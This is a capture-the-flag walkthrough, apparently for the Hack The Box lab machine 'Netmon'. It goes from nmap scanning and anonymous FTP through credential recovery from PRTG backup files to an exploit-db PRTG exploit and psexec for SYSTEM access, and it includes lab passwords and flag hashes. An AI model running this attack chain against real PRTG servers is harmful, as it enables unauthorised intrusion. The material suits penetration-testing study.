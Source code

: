 # Netmon

## IP

> 10.10.10.152
## nmap Scan

```
nmap -T4 -A 10.10.10.152 -Pn
```

```a
Nmap scan report for 10.10.10.152
Host is up (0.14s latency).
Not shown: 996 closed ports
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5m31s, deviation: 0s, median: 5m30s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-04T05:25:23
|_  start_date: 2021-08-04T04:57:28

```

## Open Ports
       
>21/tcp  open  ftp          Microsoft ftpd

FTP 

>139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds

SMB

> 135/tcp   open  msrpc        Microsoft Windows RPC

RPC

> 80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)

HTTP

## rcpinfo

```rpcinfo -p 10.10.10.152```

> 10.10.10.152: RPC: Remote system error — Connection refused

## smbclient
```smbclient -L \\\\10.10.10.152\\```

> Access Denied

## ftp

```ftp 10.10.10.152```

```
username = anonymous
password = anonymous
```

We are inside FTP lets check it

### Getting user.txt

```
cd Users\Public
get user.txt
```

> dd58ce67b49e15105e88096c8d9255a5

We do not have access to Administrator folder

### ftp info

```
msfconsole
search ftp_version
use 0
set rhosts 10.10.10.152
run
```

> [10.10.10.152:21       - FTP Banner: '220 Microsoft FTP Service\x0d\x0a'

Tried to exploit it, nothing useful

## smb

```
msfconsole
search smb_version
use 0
set rhosts 10.10.10.152
run
```

> [+] 10.10.10.152:445      - Host is running Windows 2016 Standard (build:14393) (name:NETMON) (signatures:optional)

Tried to exploit it, nothing useful

## HTTP

http://10.10.10.152/index.htm

The server is running  "PRTG Network Monitor" but we need to log in

I tried the default credentials and did not work

```
user = prtgadmid
pass = prtgadmid
```

I also searched for exploits and all of them need authentication

## HTTP & FTP

We can search online where PRTG stores the information and search for it using FTP, online I found that it is stored in the Paessler folder

Inside FTP

```
cd Users
ls -la
cd "All Users"
cd Paessler
```

And we get all the backups

> PRTG Configuration.dat
PRTG Configuration.old
PRTG Configuration.old.bak

We check all the files looking for logging information and inside "PRTG Configuration.old.bak" we found the credentials

```
username = prtgadmin
password = PrTg@dmin2018
```

But it does not work

But if we try 2019.... it works!

```
username = prtgadmin
password = PrTg@dmin2019
```

Now we can get our cookie using burpsuite

> _ga=GA1.4.1977065840.1628054251;
>  _gid=GA1.4.836979986.1628054251; 
>  OCTOPUS1813713946=ezMzNEFCQUZFLTkzNkMtNEEzOC05Q0EwLTNDMDQ3QzVFNDY0OH0%3D

We can now use this exploit "https://www.exploit-db.com/exploits/46527"

We created a file called exp.sh with the exploit

```
~/Desktop/./exp.sh -u http://10.10.10.152 -c "_ga=GA1.4.1977065840.1628054251; _gid=GA1.4.836979986.1628054251; OCTOPUS1813713946=e0NFQ0IyOTY5LTc3NzctNDBCMi1COEM3LTI0RkZGRkNBREZGQX0%3D"
```

We now have an user and a password with administrator credentials inside the machine, lets access it!

```
username = pentest
password = P3nT3st!
```

### psexec.py

We can use https://github.com/SecureAuthCorp/impacket to access the machine

```psexec.py pentest:P3nT3st!@10.10.10.152```

We are in! and we are System!!

### Getting root.txt

```
cd c:\
cd Users
cd Administrator
cd Desktop
type root.txt
```

> 3018977fb944bf1878f75b879fba67cc